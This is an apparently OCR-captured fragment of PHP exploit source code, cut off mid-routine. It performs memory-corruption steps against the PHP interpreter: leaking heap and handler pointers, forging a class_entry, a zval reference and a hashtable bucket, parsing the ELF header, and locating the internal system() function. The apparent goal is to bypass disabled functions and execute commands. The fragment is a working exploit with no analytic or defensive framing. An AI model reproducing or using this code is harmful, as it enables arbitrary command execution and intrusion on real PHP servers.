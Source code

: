 ```php
        # some leaks
        $class_entry = $this->str2ptr($this->abc, 0x120);
        $handlers = $this->str2ptr($this->abc, 0x128);
        $php_heap = $this->str2ptr($this->abc, 0x1a8);
        $abc_addr = $php_heap - 0x218;

        # create a fake class_entry
        $fake_obj = $abc_addr;
        $this->write($this->abc, 0, 2); # type
        $this->write($this->abc, 0x120, $abc_addr); # fake class_entry

        # copy some of class_entry definition
        for($i = 0; $i < 16; $i++) {
            $this->write($this->abc, 0x10 + $i * 8, 
                $this->leak1($class_entry + 0x10 + $i * 8));
        }

        # fake static members table
        $fake_tbl_off = 0x70 * 4 - 16;
        $this->write($this->abc, 0x30, $abc_addr + $fake_tbl_off);
        $this->write($this->abc, 0x38, $abc_addr + $fake_tbl_off);

        # fake zval_reference
        $this->write($this->abc, $fake_tbl_off, $abc_addr + $fake_tbl_off + 0x10); # zval
        $this->write($this->abc, $fake_tbl_off + 8, 10); # zval type (reference)

        # look for binary base
        $binary_leak = $this->leak2($handlers + 0x10);
        if(!($base = $this->get_binary_base($binary_leak))) {
            die("Couldn't determine binary base address");
        }

        # parse elf header
        if(!($elf = $this->parse_elf($base))) {
            die("Couldn't parse ELF");
        }

        # get basic_functions address
        if(!($basic_funcs = $this->get_basic_funcs($base, $elf))) {
            die("Couldn't get basic_functions address");
        }

        # find system entry
        if(!($zif_system = $this->get_system($basic_funcs))) {
            die("Couldn't get zif_system address");
        }
        
        # copy hashtable offsetGet bucket
        $fake_bkt_off = 0x70 * 5 - 16;

        $function_data = $this->str2ptr($this->abc, 0x50);
        for($i = 0; $i < 4; $i++) {
            $this->write($this->abc, $fake_bkt_off + $i * 8, 
                $this->leak2($function_data + 0x40 * 4, $i * 8));
        }

        # create a fake bucket
        $fake_bkt_addr = $abc_addr + $fake_bkt_off;
        $this->write($this->abc, 0x50, $fake_bkt_addr);
        for($i = 0; $i < 3; $i++) {
            $this->write($this->abc, 0x58 + $i * 4, 1, 4);
        }

```